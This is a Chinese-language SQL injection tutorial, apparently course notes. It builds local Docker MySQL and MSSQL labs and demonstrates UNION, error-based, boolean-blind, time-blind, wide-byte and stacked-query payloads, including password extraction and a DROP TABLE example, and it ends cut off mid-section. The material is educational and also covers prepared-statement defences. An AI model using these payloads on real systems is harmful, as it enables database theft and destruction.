



# 第 1 课时：SQL 注入原理 + 环境搭建
## 1.1 一句话理解 SQL 注入
> **SQL 注入**：攻击者把**恶意 SQL 语句**拼接到用户输入里，让后端数据库**当成正常代码执行**。

### 1.1.1 经典场景
某个登录页面，后端 PHP 代码这样写：

```php
$username = $_POST['username'];
$password = $_POST['password'];
$sql = "SELECT * FROM users WHERE username='".$username."' AND password='".$password."'";
mysql_query($sql);
```

**正常用户**输入 `admin` / `123456`：

```sql
SELECT * FROM users WHERE username='admin' AND password='123456'
```

**黑客**输入 `admin'-- -` / 任意：

```sql
SELECT * FROM users WHERE username='admin'-- -' AND password='xxx'
                                        ↑↑↑↑↑↑↑
                                  把后面的密码校验注释掉了！
```

**结果**：不需要密码就能登录 admin 账户。

### 1.1.2 漏洞本质


> 💡 **核心矛盾**：用户输入**本应只是"数据"**，但拼接方式让它**变成了"代码"**。这就是 **Code Injection** 类漏洞的本质。
>

---

## 1.2 SQL 注入的危害
| 危害 | 说明 |
| --- | --- |
| **数据泄露** | 拖库：用户、密码、订单、银行卡 |
| **认证绕过** | 任意账户登录 |
| **数据篡改** | 改余额、改权限 |
| **文件读写** | MySQL `load_file()` / `into outfile` |
| **命令执行** | MSSQL `xp_cmdshell`、MySQL UDF 提权 |
| **内网渗透** | 拿到 DB 权限后横向 |
| **完全控制** | 进一步拿到 shell |




---

## 1.3 SQL 注入分类（必背）


### 1.3.1 按回显分
| 类型 | 是否看得见 | 难度 | 典型场景 |
| --- | :---: | :---: | --- |
| UNION 注入 | ✅ 直接显示 | ⭐ | 页面回显查询结果 |
| 报错注入 | ✅ 错误页面 | ⭐⭐ | 页面会打印 SQL 错误 |
| 布尔盲注 | 🔁 真假页面 | ⭐⭐⭐ | 页面只有"有/无"两种状态 |
| 时间盲注 | ⏱ 等待时间 | ⭐⭐⭐⭐ | 完全无回显 |


### 1.3.2 按位置分
| 类型 | 闭合方式 | 例子 |
| --- | --- | --- |
| 数字型 | 不需要 | `WHERE id=$id` |
| 字符型 | `'` | `WHERE id='$id'` |
| 字符型（双引号） | `"` | `WHERE id="$id"` |
| 括号型 | `')` | `WHERE id=('$id')` |


---

## 1.4 环境搭建：Docker 跑 MySQL
### 1.4.1 启动 MySQL 5.7
```bash
#Linux中的命令
docker run -d \
  --name mysql-lab \
  -p 3306:3306 \
  -e MYSQL_ROOT_PASSWORD=root \
  mysql:5.7

# Windows中的命令
docker run -d --name mysql-lab -p 3306:3306 -e MYSQL_ROOT_PASSWORD=root mysql:5.7

```

### 1.4.2 进入 MySQL 命令行
```bash
docker exec -it mysql-lab mysql -uroot -proot
```

看到 `mysql>` 提示符即成功。

### 1.4.3 准备测试数据
```sql
-- 1. 创建数据库
CREATE DATABASE sqli_lab;
USE sqli_lab;

-- 2. 创建用户表
CREATE TABLE users (
    id INT PRIMARY KEY AUTO_INCREMENT,
    username VARCHAR(50),
    password VARCHAR(50),
    email VARCHAR(100),
    role VARCHAR(20) DEFAULT 'user'
);

-- 3. 插入测试数据
INSERT INTO users (username, password, email, role) VALUES
('admin',   'admin123', 'admin@lab.com',   'admin'),
('alice',   'alice456', 'alice@lab.com',   'user'),
('bob',     'bob789',   'bob@lab.com',     'user'),
('charlie', 'charlie0', 'charlie@lab.com', 'user'),
('root',    'root321',  'root@lab.com',    'admin');

-- 4. 创建商品表
CREATE TABLE products (
    id INT PRIMARY KEY AUTO_INCREMENT,
    name VARCHAR(100),
    price DECIMAL(10,2),
    stock INT
);

INSERT INTO products (name, price, stock) VALUES
('Laptop',     6999.00,  10),
('Phone',      3999.00,  50),
('Headset',    399.00,   100),
('Keyboard',   199.00,   200);

-- 5. 创建密钥表
CREATE TABLE secrets (
    id INT PRIMARY KEY,
    secret_key VARCHAR(100)
);

INSERT INTO secrets VALUES (1, 'FLAG{sqli_is_fun}');
INSERT INTO secrets VALUES (2, 'FLAG{never_trust_user_input}');

-- 6. 验证
SHOW TABLES;
SELECT * FROM users;
SELECT * FROM secrets;
```

> 💡 把上面 SQL 保存为 `init.sql`，下次启动用 `-v` 挂载：
>

```bash
docker run -d --name mysql-lab -p 3306:3306 \
  -e MYSQL_ROOT_PASSWORD=root \
  -v ./init.sql:/docker-entrypoint-initdb.d/init.sql \
  mysql:5.7
```

---

## 1.5 模拟后端拼接（关键实验）
我们手动模拟"用户输入 → 后端拼接 → 数据库执行"的过程。

### 1.5.1 正常查询
```sql
-- 模拟后端：用户传入 id=1
SET @user_input = '1';
SET @sql = CONCAT('SELECT * FROM users WHERE id = ', @user_input);
PREPARE stmt FROM @sql;
EXECUTE stmt;
-- 结果：返回 id=1 的用户
```

### 1.5.2 注入攻击
```sql
-- 模拟黑客传入 id=1 UNION SELECT 1,2,3,4,5
SET @user_input = '1 UNION SELECT 1,2,3,4,5';
SET @sql = CONCAT('SELECT * FROM users WHERE id = ', @user_input);
PREPARE stmt FROM @sql;
EXECUTE stmt;
-- 结果：返回 id=1 用户 + 一行 1,2,3,4,5
```

**这就是 SQL 注入的本质！** 输入控制了 SQL 语义。

---

## 1.6 SQL 注入判断流程（5 步法）


### 1.6.1 经典测试 Payload
| 测试 | 含义 |
| --- | --- |
| `id=1'` | 加单引号看是否报错 |
| `id=1 and 1=1` | 数字型试探 |
| `id=1 and 1=2` | 数字型确认（页面应该异常） |
| `id=1' and '1'='1` | 字符型试探 |
| `id=1' and '1'='2` | 字符型确认 |
| `id=1-- -` | 注释后半部分 |
| `id=1#` | 同上（MySQL） |
| `id=1'-- -` | 字符型闭合+注释 |


---

## 1.7 课时 1 小结
| 关键词 | 一句话 |
| --- | --- |
| 本质 | 用户输入被当成代码执行 |
| 危害 | 数据泄露 / 命令执行 / 完全控制 |
| 分类 | UNION / 报错 / 布尔 / 时间 |
| 5 步法 | 找点 → 判断 → 定型 → 回显 → 提数 |
| 环境 | Docker 跑 MySQL 5.7 |


### 课间实操（10 min）
1. Docker 启动 MySQL。
2. 执行 `init.sql` 建表插数据。
3. 模拟 1.5.1 和 1.5.2 的 PREPARE 语句，理解拼接的本质。

---

# 第 2 课时：MySQL 四大注入类型（DB 层实操）
💡 **本课时全部在 MySQL 命令行里完成**，不涉及 Web。先把 SQL 玩明白，再去打靶场。

---

## 2.1 UNION 注入（最基础，必学）
### 2.1.1 原理
`UNION` 运算符把**两个 SELECT 结果合并**：

```sql
SELECT id,name FROM table_a
UNION
SELECT id,name FROM table_b;
```

要求：**两个 SELECT 的列数必须相同**。

### 2.1.2 完整 6 步流程


### 2.1.3 在数据库里实操
```sql
USE sqli_lab;

-- 模拟后端：用户传 id=1
SELECT id, username, password FROM users WHERE id = 1;

-- 模拟注入 1：探测列数（递增列数）
SELECT id, username, password FROM users WHERE id = 1 UNION SELECT 1;
-- ❌ 报错：列数不同

SELECT id, username, password FROM users WHERE id = 1 UNION SELECT 1,2,3;
-- ✅ 成功！说明原 SELECT 是 3 列
```

### 2.1.4 关键 SQL 信息查询语句（背！）
```sql
-- 当前数据库
SELECT database();

-- 当前用户
SELECT user();
-- 或
SELECT current_user();

-- 当前版本
SELECT version();

-- 所有数据库
SELECT schema_name FROM information_schema.schemata;

-- 所有表（指定库）
SELECT table_name FROM information_schema.tables 
WHERE table_schema='sqli_lab';

-- 所有列（指定表）
SELECT column_name FROM information_schema.columns 
WHERE table_schema='sqli_lab' AND table_name='users';

-- 所有用户数据
SELECT username, password FROM users;
```

### 2.1.5 用 UNION 把这些信息"偷"出来
```sql
-- 把 database() 注入到第 2 列
SELECT id, username, password FROM users WHERE id = -1
UNION SELECT 1, database(), 3;

-- 把所有库名注入
SELECT id, username, password FROM users WHERE id = -1
UNION SELECT 1, schema_name, 3 FROM information_schema.schemata;

-- 把所有表名注入
SELECT id, username, password FROM users WHERE id = -1
UNION SELECT 1, table_name, 3 FROM information_schema.tables 
WHERE table_schema='sqli_lab';

-- 把所有列名注入
SELECT id, username, password FROM users WHERE id = -1
UNION SELECT 1, column_name, 3 FROM information_schema.columns 
WHERE table_schema='sqli_lab' AND table_name='secrets';

-- 把密钥注入
SELECT id, username, password FROM users WHERE id = -1
UNION SELECT 1, secret_key, 3 FROM secrets;
```

> 💡 **为什么用 **`id = -1`？让原 SELECT 查不到数据，结果只剩 UNION 的内容，更清晰。


**三张系统表字段对照** ：
1. `information_schema.COLUMNS`（查列） 
    - `table_schema` → 库名
    - `table_name` → 表名
    - `column_name` → 列名
2. `information_schema.TABLES`（查表） 
    - `table_schema` → 库名
    - `table_name` → 表名
3. `information_schema.SCHEMATA`（查全部数据库） 
    - `schema_name` → 库名

### 2.1.6 GROUP_CONCAT 一行搞定
```sql
-- 把所有库名合并成一行
SELECT id, username, password FROM users WHERE id = -1
UNION SELECT 1, GROUP_CONCAT(schema_name SEPARATOR ' | '), 3 
FROM information_schema.schemata;
-- 输出：information_schema | mysql | performance_schema | sqli_lab | sys
```

---

## 2.2 报错注入（Error-based）
### 2.2.1 原理
> 数据库执行 SQL 出错时，**会把错误信息回显在页面上**。攻击者故意构造**会报错但报错信息中携带查询结果**的语句。

**适用场景**：
+ 页面**会显示 SQL 错误**（如 `mysql_error()` 输出）
+ UNION 不行（如列数太多、显示位找不到）
+ **不方便**用 UNION 的任何情况

### 2.2.2 三大经典函数
| 函数 | 依赖版本 | 原理 |
| --- | :---: | --- |
| `extractvalue()` | MySQL 5.1+ | XPath 语法错误，错误信息回显参数 |
| `updatexml()` | MySQL 5.1+ | 同上 |
| `floor()` + `rand()` + `group by` | MySQL 5.0+ | 主键冲突，错误信息回显 |


### 2.2.3 extractvalue / updatexml 详解
```sql
-- extractvalue 正常用法
SELECT extractvalue('<a><b>hello</b></a>', '/a/b');
-- 返回 hello

-- 故意写错 XPath（开头是 ~ 不是 / 等合法字符）
SELECT extractvalue(1, CONCAT(0x7e, database()));
-- 错误：XPATH syntax error: '~sqli_lab'
--                          ↑↑↑↑↑↑↑↑↑
--                       数据库就在错误信息里！
-- 补充：从xpath语法报错开始才进行回显，如果没有加0x7e，后面使用group_concat的情况下会从逗号开始才开始解析
```

**原理解析**：
```plain
extractvalue(XML片段, XPath表达式)
                   ↑
            这里必须是合法 XPath
            攻击者故意写 ~database()
            数据库会计算 database() = 'sqli_lab'
            然后 ~sqli_lab 不是合法 XPath → 报错
            错误信息里就把 'sqli_lab' 回显了
```

```sql
-- 在数据库里实操
SELECT extractvalue(1, CONCAT(0x7e, (SELECT user())));
-- 错误：XPATH syntax error: '~root@localhost'

SELECT updatexml(1, CONCAT(0x7e, (SELECT version())), 1);
-- 错误：XPATH syntax error: '~5.7.43'

SELECT extractvalue(1, CONCAT(0x7e, (SELECT password FROM users WHERE username='admin' LIMIT 1)));
-- 错误：XPATH syntax error: '~admin123'
```

💡 **关键技巧**：用 `CONCAT(0x7e, ...)` 在前面加 `~`，强制触发 XPath 错误。

### 2.2.4 extractvalue / updatexml 的局限
**错误信息最长 32 个字符**！

```sql
SELECT extractvalue(1, CONCAT(0x7e, (SELECT GROUP_CONCAT(username, password) FROM users)));
-- 错误信息会被截断
```

**绕过方法**：用 `SUBSTR` 分段：
```sql
-- 取前 30 个字符
SELECT extractvalue(1, CONCAT(0x7e, SUBSTR((SELECT GROUP_CONCAT(username,0x3a,password) FROM users), 1, 30)));
-- 取第 31-60 个字符
SELECT extractvalue(1, CONCAT(0x7e, SUBSTR((SELECT GROUP_CONCAT(username,0x3a,password) FROM users), 31, 30)));
-- 继续分段...
```

### 2.2.5 floor + rand + group by（经典老洞）
```sql
-- 完整 Payload
SELECT COUNT(*), CONCAT((SELECT database()), FLOOR(RAND(0)*2)) AS x 
FROM users GROUP BY x;
-- 错误：Duplicate entry 'sqli_lab1' for key 'group_key'
```

**group by 使用floor(rand(0)*2)，在插入新分组时，表达式计算两次，只查询不插入新分组时只会计算一遍**

**原理解析**（重要，面试常问）：
```plain
floor(rand(0)*2)  会产生固定序列：0,1,1,0,1,1,...

GROUP BY 过程：
第 1 行
查找：rand#1 →0；虚表无 0，进入插入分支。
插入阶段重新计算 rand#2 →1，实际插入 key=1。
虚表现在：{1} （注意：查找是 0，插进去的却是 1！）
第 2 行
查找：rand#3 →1；虚表已经存在 1。
命中分组，只做 count+1，不插入、不重新算 rand。虚表不变：{1}
第 3 行（真正报错在这里）
查找：rand#4 →0；虚表里没有 0，进入插入分支。
插入阶段重新计算 rand#5 →1，尝试插入 key=1。
key=1 已经存在虚表 → Duplicate entry '库名1' for key '<group_key>' 报错。
                                    ↑
                        错误信息里会带上 'database()结果 + 1'
```

> 🎯 **关键条件**：
> + 数据表至少 **3 条记录**
> + `rand(0)` 用 0 作为种子（保证序列固定）
> + 必须用 `GROUP BY`

**漏洞可复现版本：MySQL 5.5.x、MySQL5.7 ≤ 5.7.20**
5.7.21 之后优化器改动，预计算RAND(0)*2，每行表达式只计算 1 次，不会出现 “查找分组和插入分组两次 rand 结果不同” 的内核 bug。

优化器的改变：MySQL 5.7 对 GROUP BY 的执行计划做了优化。它可能只对 RAND() 计算一次，或者用一种更确定性的方式来生成分组键，从而避免了 GROUP BY 操作过程中产生键值冲突。

RAND(0) 的序列：RAND(0) 的前几个值是确定的。你可以在测试中观察到，它生成的 x 值分别是 sqli_lab0, sqli_lab1 等，它们是两个不同的键值，因此 GROUP BY 会正常分组，不会报错。


```sql
-- 完整偷数据版
SELECT COUNT(*), CONCAT((SELECT user()), FLOOR(RAND(0)*2)) AS x 
FROM users GROUP BY x;
-- 错误：Duplicate entry 'root@localhost1' for key '<group_key>'

SELECT COUNT(*), CONCAT((SELECT password FROM users WHERE username='admin' LIMIT 1), 
                        FLOOR(RAND(0)*2)) AS x 
FROM users GROUP BY x;
-- 错误：Duplicate entry 'admin1231' for key '<group_key>'
```

---

## 2.3 布尔盲注（Boolean-based Blind）
### 2.3.1 原理
页面**不回显具体数据**，但**根据查询真假返回不同页面**（如"用户存在" vs "用户不存在"）。


### 2.3.2 核心函数（背！）
```sql
-- 字符串长度
LENGTH(database())           -- 8
LENGTH('admin')              -- 5

-- 取第 N 个字符
-- substr()是substring()的简写，substring()兼容性更好
SUBSTR(database(), 1, 1)     -- 's'
SUBSTR(database(), 2, 1)     -- 'q'

-- 字符 ASCII 值（数字比大小更准）
ASCII(SUBSTR(database(), 1, 1))   -- 115

-- 比大小（二分法加速）
ASCII(SUBSTR(database(), 1, 1)) > 100   -- true
ASCII(SUBSTR(database(), 1, 1)) > 120   -- false
```

### 2.3.3 在数据库实操
```sql
-- 模拟后端：SELECT * FROM users WHERE id = ?
-- 假设后端传 id=1，正常返回数据

-- 测试 1：1=1 → 真
SELECT * FROM users WHERE id = 1 AND 1=1;
-- 返回 id=1 的数据

-- 测试 2：1=2 → 假
SELECT * FROM users WHERE id = 1 AND 1=2;
-- 没数据（空结果集）

-- 这就是布尔的"两种状态"
```

### 2.3.4 用布尔盲注猜数据库名
**目标**：猜出 `sqli_lab` 这个名字。

```sql
-- 第 1 步：猜长度
SELECT * FROM users WHERE id = 1 AND LENGTH(database()) = 8;
-- 有结果 → 长度 8 ✓

-- 第 2 步：二分法猜第一个字符
SELECT * FROM users WHERE id = 1 AND ASCII(SUBSTR(database(),1,1)) > 100;
-- 有结果 → ASCII > 100
SELECT * FROM users WHERE id = 1 AND ASCII(SUBSTR(database(),1,1)) > 115;
-- 没结果 → ASCII ≤ 115
SELECT * FROM users WHERE id = 1 AND ASCII(SUBSTR(database(),1,1)) = 115;
-- 有结果 → ASCII = 115 = 's' ✓

-- 第 3 步：继续猜第 2 个字符
SELECT * FROM users WHERE id = 1 AND ASCII(SUBSTR(database(),2,1)) = 113;
-- 'q' ✓
```

**二分法效率**：
```plain
普通枚举：0-127，最多 128 次
二分法：  最多 log2(128) = 7 次
```

### 2.3.5 偷 admin 密码完整流程
```sql
-- 1. 猜长度
SELECT * FROM users WHERE id = 1 AND 
  (SELECT LENGTH(password) FROM users WHERE username='admin') = 8;
-- 有结果 → 长度 8

-- 2. 逐字符二分
SELECT * FROM users WHERE id = 1 AND 
  ASCII(SUBSTR((SELECT password FROM users WHERE username='admin'),1,1)) = 97;
-- 'a' ✓

-- 3. 继续直到全部猜完
SELECT * FROM users WHERE id = 1 AND 
  ASCII(SUBSTR((SELECT password FROM users WHERE username='admin'),2,1)) = 100;
-- 'd' ✓
-- ... 共 8 次 × 7 个字符 = 56 次请求
```

💡 **手工盲注很累**，所以需要 sqlmap 等工具自动化。但**原理必须懂**，否则工具不会用。

---

## 2.4 时间盲注（Time-based Blind）
### 2.4.1 原理
页面**连真假状态都不区分**（统一返回"操作成功"），怎么办？让数据库**根据条件延迟响应**：
```plain
if 条件为真:
    SLEEP(5)        # 响应慢
else:
    立即返回         # 响应快
```

**适用场景**：
+ 页面无任何回显差异
+ 报错被屏蔽
+ 联合注入和报错注入都不行

### 2.4.2 核心函数
```sql
-- MySQL 5.0.12+
SLEEP(5)                     # 延迟 5 秒

-- 老版本或 SLEEP 被禁
BENCHMARK(10000000, MD5('a'))  # 计算 1000 万次 MD5 = 耗时几秒

-- IF 条件
IF(condition, true_action, false_action)

-- 结合
IF(ASCII(SUBSTR(database(),1,1))=115, SLEEP(5), 0)
```

### 2.4.3 在数据库实操
```sql
-- 测试 1：SLEEP 真的会卡
SELECT SLEEP(5);
-- 5 秒后返回 0

-- 测试 2：IF 条件
SELECT IF(1=1, SLEEP(5), 0);
-- 卡 5 秒
SELECT IF(1=2, SLEEP(5), 0);
-- 立即返回

-- 测试 3：拼接在 WHERE 里
SELECT * FROM users WHERE id = 1 AND IF(ASCII(SUBSTR(database(),1,1))=115, SLEEP(5), 0);
-- 卡 5 秒 → 第一个字符是 's'

SELECT * FROM users WHERE id = 1 AND IF(ASCII(SUBSTR(database(),1,1))=120, SLEEP(5), 0);
-- 立即返回 → 不是 'x'
```

### 2.4.4 BENCHMARK 备用
```sql
-- 当 SLEEP 被禁用时
SELECT IF(ASCII(SUBSTR(database(),1,1))=115, 
         BENCHMARK(50000000, MD5('test')), 
         0);
-- 卡几秒 → 条件为真
```

---

 ## 2.5 宽字节注入（Wide Byte）
### 2.5.1 前置知识：PHP 的 addslashes / magic_quotes
```php
// 老版本 PHP 自动转义用户输入
$id = addslashes($_GET['id']);
// ' 被转成 \' ，所以拼接 SQL 时：
$sql = "SELECT * FROM users WHERE id = '$id'";
// 用户传 1' → 变成 1\' → SQL: '1\''
// 单引号被转义，无法闭合 → 注入失败
```

### 2.5.2 宽字节原理
> 当数据库使用 **GBK** 编码时，攻击者发送 `%df'`：
> + PHP `addslashes` 转义为 `%df\'`（即 `%df%5c`）
> + MySQL GBK 解码：`%df%5c` 合并成一个汉字 `運`（U+904B）
> + 于是单引号 `'` **重新变回未转义状态**，闭合成功！


### 2.5.3 在数据库实操
**准备 GBK 环境**：
```sql
-- 创建 GBK 编码的数据库
CREATE DATABASE gbk_lab CHARACTER SET gbk COLLATE gbk_chinese_ci;
USE gbk_lab;

CREATE TABLE users (
    id INT PRIMARY KEY,
    username VARCHAR(50)
);

INSERT INTO users VALUES (1, 'admin'), (2, 'guest');
```

**模拟宽字节**：
```bash
# 退出 mysql CLI，在 shell 里执行
# 用 hex 直观感受
echo -n "運" | xxd
# 输出：df5c 運91  ← 注意 GBK 中 "運" 就是 df5c
```

```sql
-- 在 GBK 数据库里看
USE gbk_lab;
SELECT 0xdf5c;
-- 输出：運 (一个汉字)

-- 完整模拟：用户传 %df' UNION SELECT user(),2 -- -
-- 转义后： %df\' UNION SELECT user(),2 -- -
-- 解码后： 運' UNION SELECT user(),2 -- -
-- 闭合成功！
SELECT username FROM users WHERE id = '1運' UNION SELECT user(),2 -- -';
```

### 2.5.4 完整 Payload
```plain
原始：id=1' UNION SELECT database(),2-- -
转义后会被 addslashes 破坏

宽字节版：
id=1%df' UNION SELECT database(),2-- -
```

URL 编码：`%df%27%20UNION...`

### 2.5.5 防御
| 错误方法 | 为什么不行 |
| --- | --- |
| `addslashes` | 宽字节可以绕 |
| `magic_quotes_gpc` | 同上 |
| **正确方法** | `mysql_real_escape_string` + 设字符集 |
| **最佳方法** | **PDO 预编译** |


```php
// 正确做法：PDO 预编译
$stmt = $pdo->prepare("SELECT * FROM users WHERE id = ?");
$stmt->execute([$id]);
```

---

## 2.6 进阶：堆叠查询（Stacked Queries）
### 2.6.1 原理
在 SQL 语句末尾加 `;`，**追加新的 SQL 语句**。
```sql
SELECT * FROM users WHERE id = 1; DROP TABLE users; -- -
                                ↑
                          第二条语句
```

### 2.6.2 数据库支持情况
| 数据库 | 默认支持堆叠 |
| --- | :---: |
| MSSQL | ✅ |
| PostgreSQL | ✅ |
| **MySQL** | ❌（默认 `mysql_query` 不支持，需 `mysqli_multi_query`） |
| Oracle | ❌（需 PL/SQL 块） |

🎯 MySQL 默认不能堆叠，**MSSQL 可以**！这是 MSSQL 注入的关键优势。

### 2.6.3 在数据库实操（MySQL，需开启）
```sql
-- 普通查询
SELECT * FROM users WHERE id = 1;

-- 用 PREPARE 模拟堆叠
SET @sql = "SELECT * FROM users WHERE id = 1; SELECT user();";
PREPARE stmt FROM @sql;
EXECUTE stmt;
-- MySQL 5.7 默认会拒绝执行第二条
```

---

## 2.7 课时 2 小结
| 注入类型 | 关键函数/特征 | 典型 Payload |
| --- | --- | --- |
| UNION | UNION SELECT + 列数对齐 | `UNION SELECT 1,database(),3` |
| 报错-extractvalue | XPath 错误 | `extractvalue(1,concat(0x7e,database()))` |
| 报错-floor | 主键冲突 | `group by floor(rand(0)*2)` |
| 布尔盲注 | AND + ASCII + SUBSTR | `AND ASCII(SUBSTR(database(),1,1))=115` |
| 时间盲注 | IF + SLEEP | `AND IF(条件,SLEEP(5),0)` |
| 宽字节 | GBK + %df | `id=1%df'-- -` |
| 堆叠 | 分号追加 | `; DROP TABLE x; -- -` |

### 课间实操（30 min）
按下面顺序在 MySQL CLI 里完成：

1. **UNION**：用一条 SQL 把 `secrets` 表里所有 FLAG 偷出来。
2. **报错-extractvalue**：用 `extractvalue` 报错拿到 `version()`。
3. **报错-floor**：用 `floor+rand+group by` 报错拿到 `user()`。
4. **布尔盲注**：手工用 `ASCII+SUBSTR` 猜出 `database()` 的第 1-3 个字符。
5. **时间盲注**：用 `IF+SLEEP` 验证 `database()` 第一个字符是 's'。
6. **宽字节**：在 GBK 库里跑一遍宽字节闭合。

---

# 第 3 课时：MSSQL 注入与命令执行
## 3.1 为什么单独讲 MSSQL？
### 3.1.1 MSSQL 的"特殊地位"
| 特性 | MySQL | MSSQL |
| --- | :---: | :---: |
| 堆叠查询 | ❌ 默认不支持 | ✅ **天然支持** |
| 内置命令执行 | ❌（需 UDF 提权） | ✅ `xp_cmdshell` |
| 默认权限 | 通常普通 | **sa 高权限常见** |
| 企业部署 | Web 居多 | **政府/金融 .NET 居多** |


> 🎯 **核心结论**：MSSQL 注入 = **可能直接拿 shell**！

---

## 3.2 环境搭建：Docker 跑 MSSQL
### 3.2.1 启动 MSSQL 2019
```bash
docker run -d \
  --name mssql-lab \
  -e "ACCEPT_EULA=Y" \
  -e "SA_PASSWORD=YourStrong@Passw0rd" \
  -p 1433:1433 \
  mcr.microsoft.com/mssql/server:2019-latest
```

⚠️ **密码要求**：至少 8 位，含大写、小写、数字、特殊符号。否则启动失败。

### 3.2.2 进入 MSSQL 命令行
```bash
docker exec -it mssql-lab /opt/mssql-tools/bin/sqlcmd -S localhost -U sa -P 'YourStrong@Passw0rd'
```

看到 `1>` 提示符即成功。

> 💡 **MSSQL CLI 特点**：
> + 输入命令不立即执行
> + 输完后**必须输入**`GO` 才执行
> + 每行有行号 `1>` `2>` `3>`

### 3.2.3 准备测试数据
```sql
CREATE DATABASE sqli_lab;
GO
USE sqli_lab;
GO

CREATE TABLE users (
    id INT PRIMARY KEY IDENTITY(1,1),
    username NVARCHAR(50),
    password NVARCHAR(50),
    role NVARCHAR(20) DEFAULT 'user'
);
GO

INSERT INTO users (username, password, role) VALUES
('admin', 'admin123', 'admin'),
('alice', 'alice456', 'user'),
('bob', 'bob789', 'user');
GO

CREATE TABLE secrets (
    id INT PRIMARY KEY,
    secret_key NVARCHAR(100)
);
GO

INSERT INTO secrets VALUES (1, N'FLAG{mssql_is_powerful}');
GO

SELECT * FROM users;
GO
```

---

## 3.3 MSSQL 与 MySQL 的关键差异
| 维度    | MySQL                                          | MSSQL                                                 |
| ----- | ---------------------------------------------- | ----------------------------------------------------- |
| 注释符   | `-- -` `#` `/* */`                             | `-- ` `/* */`                                         |
| 字符串连接 | `CONCAT()`                                     | `'a' + 'b'`                                           |
| 查库    | `schema_name FROM information_schema.schemata` | `name FROM master..sysdatabases`                      |
| 查表    | `information_schema.tables`                    | `name FROM sysobjects WHERE xtype='U'` 或 `sys.tables` |
| 查列    | `information_schema.columns`                   | `sys.columns`                                         |
| 当前库   | `database()`                                   | `DB_NAME()`                                           |
| 当前用户  | `user()`                                       | `SYSTEM_USER` 或 `USER`                                |
| 版本    | `version()`                                    | `@@VERSION`                                           |
| 限制条数  | `LIMIT 0,1`                                    | `TOP 1`                                               |
| 等待    | `SLEEP(5)`                                     | `WAITFOR DELAY '0:0:5'`                               |
| 数据类型  | 灵活                                             | **严格**（CAST 转换）                                       |


### 3.3.1 关键查询语句对照
```sql
-- MySQL
SELECT database();
SELECT user();
SELECT version();
SELECT schema_name FROM information_schema.schemata;
SELECT table_name FROM information_schema.tables WHERE table_schema=database();
SELECT column_name FROM information_schema.columns WHERE table_name='users';
SELECT password FROM users LIMIT 0,1;

-- MSSQL
SELECT DB_NAME();
SELECT SYSTEM_USER;
SELECT @@VERSION;
SELECT name FROM master..sysdatabases;
SELECT name FROM sys.tables;
SELECT name FROM sys.columns WHERE object_id = OBJECT_ID('users');
SELECT TOP 1 password FROM users;
```

---

## 3.4 MSSQL UNION 注入
### 3.4.1 完整流程
```sql
